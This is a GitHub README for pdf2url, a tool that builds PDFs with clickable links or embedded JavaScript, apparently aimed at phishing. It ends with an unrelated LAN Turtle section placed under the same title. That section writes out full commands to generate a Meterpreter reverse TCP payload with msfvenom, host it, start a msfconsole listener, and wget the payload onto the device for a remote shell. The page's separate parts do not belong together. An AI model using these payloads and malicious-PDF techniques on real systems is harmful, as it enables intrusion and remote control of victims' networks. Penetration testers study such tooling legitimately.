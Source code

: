 # pdf2url

<a href="https://streamable.com/arr12g" title="pdf2url"><img src="https://github.com/ATTACKnDEFEND/pdf2url/blob/main/images/pdf2url.png" alt="pdf2url" /></a>

pdf2url is a Python script that generates a PDF file with a clickable link to open a url or download a file. It utilizes the ReportLab library to create the PDF and allows you to specify the text for the link, name of the PDF file and the URL to be opened when the link is clicked.

#### Disclaimer:
This script is intended for educational and informational purposes only. Use it responsibly. The user assumes all responsibility and risk associated with the use of this script.

Prerequisites:
- Python 3.x installed on your system
- `reportlab` library installed (`pip install reportlab`)

Arguments:
-t or --text: Text shown for the link (default: "Click me").
-u or --url: URL to be opened when the link is clicked (required).
-o or --output: Name of the PDF file to be saved (default: "output.pdf").

Example usage:
<br />
python pdf2url.py -t "Click me" -u "https://www.example.com" -o "mydocument.pdf"<br />
- NOTE: use double "" quotes

# pdf2url

The code is a Python script that allows you to create a PDF with embedded JavaScript. It provides two main functionalities: creating a blank PDF with a single empty page and inserting JavaScript code into an existing PDF.

#### Disclaimer:
This script is intended for educational and informational purposes only. Use it responsibly. The user assumes all responsibility and risk associated with the use of this script.

Prerequisites:
- Python 3.x installed on your system
- PyPDF2: The code utilizes the PyPDF2 library for working with PDF files. You need to have PyPDF2 installed. You can install it using pip: pip install PyPDF2.

Arguments:
-i or --input: Specifies the input PDF file to which the JavaScript code will be added. If this is not specified a blank pdf file is created.
-j or --javascript: Specifies the JavaScript file containing the code to be embedded.
-o or --output: Specifies the output PDF file name where the modified PDF with embedded JavaScript will be saved. (required).

Example usage:

Inserting JavaScript into an existing PDF -
<br />
python pdf2url.py -i input.pdf -j script.js -o output.pdf<br />

Creating a blank PDF and inserting JavaScript -
<br />
python pdf2url.py -j script.js -o output.pdf<br />


#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from GitHub**<br />
<br />
`wget https://raw.githubusercontent.com/ATTACKnDEFEND/LanTurtle/main/meterpreter-mipsbe-reverse-tcp -O
/etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**2 - On Kali: generate Meterpreter payload with Msfvenom**<br />
<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > meterpreter-mipsbe-reverse-tcp`<br />
<br />
`sudo cp meterpreter-mipsbe-reverse-tcp /var/www/html/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: start Meterpreter listener**<br />
<br />
`sudo msfconsole -q -x "use exploit/multi/handler;set payload linux/mipsbe/meterpreter_reverse_tcp;set lhost <LHOST>;set LPORT <LPORT>;exploit -j"`<br />

**4 - On LAN Turtle: transfer Meterpreter payload**<br />
<br />
`wget <KALI IP>/meterpreter-mipsbe-reverse-tcp -O /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />

